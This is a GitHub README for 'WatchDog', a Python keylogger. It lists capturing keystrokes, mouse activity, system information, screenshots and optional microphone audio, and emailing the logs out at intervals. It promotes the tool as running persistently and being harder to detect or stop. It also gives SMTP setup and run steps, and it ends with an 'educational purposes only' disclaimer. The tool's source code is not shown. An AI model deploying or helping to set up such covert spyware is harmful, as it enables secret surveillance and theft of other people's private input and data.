




<div align="center">
  
      </a> <a href="https://github.com/arindal1" target="_blank">
      </a> <a href="https://twitter.com/arindal_17" target="_blank">
      </a>
</div>
<br>

**WatchDog** is a *Python script* that implements a basic keylogger which captures *keyboard input, mouse events, system information*, and takes *periodic screenshots*. The logged data is sent via *email* to a specified address at regular intervals. The script is designed to run persistently in the background, making it more resilient and harder to detect or stop through conventional means.

## Features

- Captures keyboard input (keystrokes) and special keys.
- Records mouse movements, clicks, and scrolls.
- Collects system information such as hostname, IP address, processor, system type, and machine type.
- Takes screenshots of the desktop.
- Records audio from the microphone (optional).
- Sends logged data via email at regular intervals.

## Installation

1. Clone or download the WatchDog repository to your local machine.
2. Install the required Python dependencies using pip:

```bash
pip install -r requirements.txt
```

3. Use a Temp-Mail, and create an account on: [mailtrap.io](https://mailtrap.io/).
4. Visit [mailtrap.io](https://mailtrap.io/) dashboard and Go to: **HOME** and use an *fake SMTP* domain.
5. Go to: **Email Testing** > *Inbox*
6. Click on [Show Credentials]() dropdown, and note your port, username, and password.
7. Open `watchdog.py` in a code editor.
8. Replace these following placeholders: <br>


Replace: 
```
EMAIL_ADDRESS = "your_email@example.com"
EMAIL_PASSWORD = "your_email_password"
```
```
with smtplib.SMTP('smtp.example.com', 587) as server:
```

## Usage

1. Run the `watchdog.py` script using Python:

```bash
python watchdog.py
```

2. The keylogger will start capturing keyboard input, mouse events, and system information silently.
3. Logged data will be periodically sent via email to the specified address. <br>

**Inbox:** <br>
 <br>

**Received Mails:** <br>
 <br>

```
[ start > "note" > enter > "the key logger is active right now" > enter > "and is recording everything" > enter > "this is the output" > enter > alt+tab ]
```

## Configuration

Before using KeyTrack, make sure to configure the following settings:

- Email address: Replace `"your_email@example.com"` with your actual email address.
- Email password: Replace `"your_email_password"` with your email password.
- SMTP server: Replace `'smtp.example.com'` with the SMTP server of your email provider.
- SMTP port: Replace `587` with the port number used by your email provider.
<br>

**Example:** <br>


## Termination:

To terminate the script, open **Task Manager** and go to the **Processes** tab. Scroll through and search for running *python processes*. Select the python process, and terminate it using **End Task**. <br>




## Disclaimer

WatchDog is intended for educational and testing purposes only. It should not be used for any illegal or unethical activities. The developers of this project are not responsible for any misuse or damage caused by the use of this software.
Always use keyloggers responsibly and ethically, respecting the privacy and security of others.
